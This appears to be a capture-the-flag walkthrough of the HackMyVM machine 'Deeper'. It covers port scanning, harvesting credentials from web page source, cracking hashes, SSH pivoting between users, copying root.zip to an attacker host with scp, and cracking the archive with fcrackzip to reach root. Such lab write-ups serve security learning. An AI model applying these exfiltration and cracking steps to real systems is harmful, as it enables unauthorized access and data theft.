 ```yaml
---
categories: [HackMyVM]
tags: [PrivEsc, enum, fcrackzip, scp]
media_subpath: /Vulnhub-Files/img/
image:
  path: Deeper/Untitled.png
  alt: HackMyVM Machine ⚔️
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#scp</kbd>&nbsp;&nbsp;<kbd>#fcrackzip</kbd>&nbsp;&nbsp;<kbd>#enum</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Deeper/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.82   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:08 IST
Nmap scan report for 10.0.2.82
Host is up (0.00083s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 37:d1:6f:b5:a4:96:e8:78:18:c7:77:d0:3e:20:4e:55 (ECDSA)
|_  256 cf:5d:90:f3:37:3f:a4:e2:ba:d5:d7:25:c6:4a:a0:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Deeper
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 08:00:27:58:E3:E2 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

While checking port 80 →

![Untitled](Deeper/Untitled%202.png)

I checked the source code and got the `PATH` →

![Untitled](Deeper/Untitled%203.png)

After going in this path I got the credentials →

![Untitled](Deeper/Untitled%204.png)

and Password through scrolling further more →

![Untitled](Deeper/Untitled%205.png)

Now I decoded these encodings/hashes and got the results for SSH Login →

I used [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/) and [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) for cracking of these hashes →

![Untitled](Deeper/Untitled%206.png)

After cracking password I logged in as user Alice .

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh alice@10.0.2.82                  
The authenticity of host '10.0.2.82 (10.0.2.82)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.82' (ED25519) to the list of known hosts.
alice@10.0.2.82 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:38:16 2023 from 192.168.100.103
alice@deeper:~$ ls -al
total 32
drwxr--r-- 3 alice alice 4096 Aug 26 00:14 .
drwxr-xr-x 4 root  root  4096 Aug 25 20:07 ..
lrwxrwxrwx 1 alice alice    9 Aug 25 19:01 .bash_history -> /dev/null
-rw-r--r-- 1 alice alice  220 Aug 25 17:58 .bash_logout
-rw-r--r-- 1 alice alice 3526 Aug 25 17:58 .bashrc
-rw-r--r-- 1 alice alice   41 Aug 25 20:43 .bob.txt
drwxr-xr-x 3 alice alice 4096 Aug 26 00:14 .local
-rw-r--r-- 1 alice alice  807 Aug 25 17:58 .profile
-rw-r--r-- 1 alice alice   33 Aug 26 00:14 user.txt
alice@deeper:~$
```
{: .nolineno}

Now I got the encoded password for bob user from `.bob.txt` file .

I Logged in as bob user →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ ssh bob@10.0.2.84      
The authenticity of host '10.0.2.84 (10.0.2.84)' can not be established.
ED25519 key fingerprint is SHA256:LsWOF4O2aDb/w6V7Z5VEAcjNfkxMmPOzyEIC7HMr91o.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.84' (ED25519) to the list of known hosts.
bob@10.0.2.84 is password: 
Linux deeper 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Aug 26 00:05:57 2023 from 192.168.100.103
bob@deeper:~$ ls -al
total 28
drwxr--r-- 3 bob  bob  4096 Aug 26 00:22 .
drwxr-xr-x 4 root root 4096 Aug 25 20:07 ..
lrwxrwxrwx 1 bob  bob     9 Aug 25 20:44 .bash_history -> /dev/null
-rw-r--r-- 1 bob  bob   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Apr 23  2023 .bashrc
drwxr-xr-x 3 bob  bob  4096 Aug 25 20:17 .local
-rw-r--r-- 1 bob  bob   807 Aug 25 20:09 .profile
-rw-r--r-- 1 bob  bob   215 Aug 26 00:21 root.zip
bob@deeper:~$ file root.zip 
root.zip: Zip archive data, at least v1.0 to extract, compression method=store
bob@deeper:~$ unzip 
-bash: unzip: command not found
bob@deeper:~$
```
{: .nolineno}

I have to transfer this `root.zip` file to the attacker machine so for that I used the command `scp` that id used to transfer files.

```bash
bob@deeper:~$ scp root.zip kali@10.0.2.77:~/Downloads/HackMyVM/Deeper/root.zip
kali@10.0.2.77's password: 
root.zip                      100%  215    82.9KB/s   00:00    
bob@deeper:~$
```
{: .nolineno}

 

Now this file is password protected to I used another Tool called as `fcrackzip` to crack this zip file password →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt root.zip

PASSWORD FOUND!!!!: pw == bob
```
{: .nolineno}

Now I extracted the password of root user from it →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Deeper]
└─$ unzip root.zip 
Archive:  root.zip
[root.zip] root.txt password: 
 extracting: root.txt
```
{: .nolineno}

Now I am root !!

```bash
bob@deeper:~$ su root
Password: 
root@deeper:/home/bob# cd ~
root@deeper:~# ls -al
total 32
drwx------  4 root root 4096 Aug 26 00:48 .
drwxr-xr-x 18 root root 4096 Aug 25 17:55 ..
lrwxrwxrwx  1 root root    9 Aug 25 18:56 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-------  1 root root   20 Aug 25 23:57 .lesshst
drwxr-xr-x  3 root root 4096 Aug 25 19:53 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   33 Aug 26 00:48 root.txt
drwx------  2 root root 4096 Aug 25 17:52 .ssh
root@deeper:~# whoami
root
root@deeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@deeper:~# hostname
deeper
root@deeper:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:33:4f:51 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.84/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 440sec preferred_lft 440sec
    inet6 fe80::a00:27ff:fe33:4f51/64 scope link 
       valid_lft forever preferred_lft forever
root@deeper:~# cat root.txt
FLAG----FLAG----FLAG----FLAG
root@deeper:~#
```
{: .nolineno}



> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }